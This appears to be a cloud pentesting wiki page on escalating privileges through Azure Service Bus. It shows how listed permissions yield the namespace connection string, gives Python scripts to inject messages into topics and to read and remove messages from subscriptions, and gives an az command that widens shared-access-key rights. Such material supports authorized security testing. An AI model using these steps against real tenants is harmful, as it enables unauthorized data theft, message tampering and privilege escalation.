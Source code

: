 # Az - Service Bus Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Service Bus

For more information check:

{{#ref}}
../az-services/az-servicebus-enum.md
{{#endref}}

### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the `PrimaryConnectionString`, which acts as a credential for the Service Bus namespace. With this connection string, you can fully authenticate as the Service Bus namespace, enabling you to send messages to any queue or topic and potentially interact with the system in ways that could disrupt operations, impersonate valid users, or inject malicious data into the messaging workflow.

```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
    # Prepare a single message with updated content
    single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
    # Send the message to the topic
    await publisher.send_messages(single_message)
    print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
    # Generate a collection of messages with updated content
    message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
    # Send the entire collection of messages to the topic
    await publisher.send_messages(message_list)
    print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
    # Send a grouped batch of messages with updated content
    async with publisher:
        grouped_message_batch = await publisher.create_message_batch()
        for i in range(10):
            try:
                # Append a message to the batch with updated content
                grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
            except ValueError:
                # If batch reaches its size limit, handle by creating another batch
                break
        # Dispatch the batch of messages to the topic
        await publisher.send_messages(grouped_message_batch)
    print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
    # Instantiate the Service Bus client with the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as sb_client:
        # Create a topic sender for dispatching messages to the topic
        publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
        async with publisher:
            # Send a single message
            await send_individual_message(publisher)
            # Send multiple messages
            await send_multiple_messages(publisher)
            # Send a batch of messages
            await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```

### Recieve Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the PrimaryConnectionString, which serves as a credential for the Service Bus namespace. Using this connection string, you can receive messages from any queue or subscription within the namespace, allowing access to potentially sensitive or critical data, enabling data exfiltration, or interfering with message processing and application workflows.

```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
    # Create a Service Bus client using the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as servicebus_client:

        # Get the Subscription Receiver object for the specified topic and subscription
        receiver = servicebus_client.get_subscription_receiver(
            topic_name=TOPIC_NAME,
            subscription_name=SUBSCRIPTION_NAME,
            max_wait_time=5
        )

        async with receiver:
            # Receive messages with a defined maximum wait time and count
            received_msgs = await receiver.receive_messages(
                max_wait_time=5,
                max_message_count=20
            )
            for msg in received_msgs:
                print("Received: " + str(msg))
                # Complete the message to remove it from the subscription
                await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```

### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`

If you have these permissions, you can escalate privileges by reading or creating shared access keys. These keys allow full control over the Service Bus namespace, including managing queues, topics, and sending/receiving messages, potentially bypassing role-based access controls (RBAC).

```bash
az servicebus namespace authorization-rule update \
    --resource-group <MyResourceGroup> \
    --namespace-name <MyNamespace> \
    --name RootManageSharedAccessKey \
    --rights Manage Listen Send
```

## References

- https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
- https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
- https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
- https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
- https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

{{#include ../../../banners/hacktricks-training.md}}





